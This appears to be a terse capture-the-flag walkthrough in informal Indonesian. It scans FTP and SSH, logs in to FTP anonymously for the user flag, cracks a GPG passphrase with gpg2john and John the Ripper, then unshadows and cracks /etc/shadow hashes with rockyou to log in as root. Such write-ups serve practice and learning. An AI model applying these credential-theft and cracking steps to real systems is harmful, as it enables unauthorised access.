 1. scan nmap 21 22 -> ftp anonymous -> get user flag
2. klaim flag

PE :
1. ke / ada notread -> gpg ama asc get aja
2. gpg2john asc.asc > asc.hash -> john hash -> gpg --import asc.asc -> masukin passphrase 
3. gpg -d nama.pgp -> masukin passphrase
4. dapet etc shadow -> shadow tuh kek pass pass gitu passwd tuh kek !bin!bin gitu
5. get passwd dari ftp /etc -> unshadow passwd shadow.txt > sha_pass.txt
6. john rockyou sha_pass.txt -> ssh root@ip -> passwd itu
7. klaim root
